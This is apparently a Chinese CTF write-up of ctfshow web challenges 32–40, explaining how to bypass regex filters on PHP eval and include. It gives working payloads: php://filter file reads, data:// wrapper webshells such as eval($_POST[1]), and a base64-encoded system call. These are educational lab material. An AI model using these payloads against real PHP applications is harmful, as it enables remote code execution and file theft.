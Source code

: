 ### 二、实战(精题)-ctfshow

#### web32-36

```php+HTML
<?php
if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
```

重点是过滤了：分号和左括号，`;`过滤时可以用 `?>` 结尾代替

可以采用include/require和\$_POST来进行逃逸，再用php伪协议读取任意文件

```bash
?c=include%0a$_POST[1]?>
?c=include$_POST[a]?>
POST: 1=php://filter/convert.base64-encode/resource=flag.php
```

也可以写成`?c=include%0a$_POST[a]?>`，a不需要用引号括起来

#### web37-39

这题需要包含flag.php，但是被过滤了

```php+HTML
<?php
	if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
```

可以用php伪协议中的data协议执行rce:

注重：**浏览器不识别+号**，所以编码的php代码有+号需要 **对+再次进行url编码**，或者直接去掉原代码结尾的 ?>

```php
?c=data://text/plain,<?php eval($_POST[1]);?> 进行一句话木马的执行
POST: 1=system('cat flag.php');

?c=data://text/plain,<?=eval($_POST[1]);?> 短标签绕过php过滤
?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg== 编码执行
```

#### web40 通过变量数组达到RCE

```php
if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
```

可以看到过滤了很多东西，上面的方法都不能使用，注意上面过滤的是**中文括号**
